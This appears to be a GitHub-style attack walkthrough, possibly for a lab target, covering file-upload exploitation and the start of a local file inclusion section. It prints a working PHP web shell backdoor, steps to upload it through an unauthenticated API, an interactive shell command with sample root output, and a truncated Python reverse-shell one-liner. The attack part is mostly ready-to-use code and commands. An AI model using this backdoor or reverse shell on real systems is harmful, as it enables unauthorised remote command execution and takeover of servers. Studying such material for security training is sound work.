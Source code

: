 Target application: `http://<TARGET IP>:3001`
Look for file upload functionality (1MB limit, no auth required).

Create a simple PHP backdoor (backdoor.php):

`<?php if(isset($_REQUEST['cmd'])){ system($_REQUEST['cmd']); die; } ?>`


Upload via the API (`/api/upload/`). The server may allow:

- `.php` extensions
- `application/x-php` content type
- No content scanning

Uploaded file location example:

`http://<TARGET IP>:3001/uploads/backdoor.php`

Interactive Web Shell Script

Python script (web_shell.py) to interact with the uploaded backdoor:

<img width="1080" height="557" alt="image" src="https://github.com/user-attachments/assets/c780b5b8-20c8-4865-a9b3-0b4a7a6eaced" />

## Usage

Interactive shell:

`python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes`

Example session:

<pre>$ id
uid=0(root) gid=0(root) groups=0(root)</pre>

## Reverse Shell

Inside the interactive shell, spawn a reverse shell (ensure a listener is running):

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);...'`



# Local File Inclusion (LFI)

LFI vulnerabilities allow attackers to read internal files and sometimes execute code (e.g., via Apache log poisoning).

## Target API

Target: `http://<TARGET IP>:3000/api`

Check if the API is alive:

`curl http://<TARGET IP>:3000/api`

`{"status":"UP"}`
